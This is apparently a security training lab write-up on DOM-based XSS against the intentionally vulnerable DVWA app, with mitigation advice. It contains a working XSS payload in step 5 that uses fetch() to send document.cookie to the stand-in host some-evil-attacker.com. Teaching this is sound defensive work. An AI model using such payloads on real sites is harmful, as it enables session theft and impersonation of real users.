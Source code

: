## 🔍 Lab 4: DOM-Based XSS – Stealing document.cookie

### 💼 Scenario
A developer chat tool renders user input without output encoding. Stored XSS impacts all logged-in users.

### 🔧 Prerequisites

- DVWA running locally (http://localhost:4280)
- DVWA Security Level set to **Low**
- A web browser with DevTools (Chrome/Firefox)

### 🎯 Objective
In this lab, we will:

- Identify a **DOM-based XSS** vulnerability in DVWA.
- Exploit the vulnerability to **steal cookies** using document.cookie.
- Simulate an attacker-controlled server to **capture stolen cookies**.
- Discuss how to mitigate DOM-based XSS.

### 🔍 What is DOM-Based XSS?

**DOM-based XSS** happens when JavaScript in the page directly uses user input from the DOM **without validation or encoding**, often through:

```js
document.location
document.URL
document.write
element.innerHTML
```

It’s different from stored/reflected XSS because **the server doesn’t see the payload** — it happens entirely on the client side.

### 🧪 Steps

1. Set security level to **Low**

2. Navigate to XSS (DOM) from the left panel

3. Choose a language from the drop down and click on `Select`. This script takes the value of `default` from the URL and directly writes it to the page without any encoding or sanitization — a perfect spot for a DOM-based XSS attack. (You can do view source of the web page and search for `default=`).

4. Let's get the `cookies` from the browser. Add the below script to the URL.

```html
?default=<script>alert(document.cookie);</script>
```
If we are able to get the cookies, the attacker can also forward them to a remote server without even the client knowing.

5. Craft the Attack Payload.

```html
?default=<script>fetch("http://some-evil-attacker.com/log?c=" + document.cookie);</script>
```
Open the developer tools and you will see the cookie information being sent to `some-evil-attacker.com` with the cookie information.
Now the attacker can:

- Use the stolen **session ID** in the cookie to impersonate the user.
- Access the application as the user (admin, perhaps).
- Perform actions (view/edit data, change password, etc.) without needing login credentials.

### 🚨 What an Attacker Does:

An attacker who discovers an **XSS vulnerability** can **inject a script** that runs in your browser — **as if you typed it yourself**. This means:

- The attacker **doesn't need physical access** to your machine.
- They exploit a website’s poor input handling to **run malicious JavaScript** in your browser.
- That script can read your document.cookie and **send it to a server they control**.


### 🧠 Real-World Context

XSS is commonly exploited in chat tools, comments, and admin panels. It enables phishing, malware drops, and impersonation.

### 🛡️ Mitigation: 
1. **Use HttpOnly Cookies**:

Modern sites often set cookies with the HttpOnly flag:

```js
Set-Cookie: sessionid=abc123; HttpOnly
```

Such cookies **cannot be accessed via JavaScript**, so even if XSS is present, stealing cookies won’t work this way.
That’s why **defense-in-depth** is so important:

- Use `HttpOnly` and `Secure` flags.
- Escape/encode user input.
- Implement Content Security Policy (CSP).
- Sanitize output based on context (HTML, JS, URL, etc.).

2. **Don’t use `document.write`**

Use safer alternatives like `textContent` instead of `innerHTML`.

3. **Sanitize User Input**

Use libraries like [DOMPurify](https://github.com/cure53/DOMPurify) to clean input.

4. **Implement a Content Security Policy (CSP)**

Prevent inline scripts and control external script sources.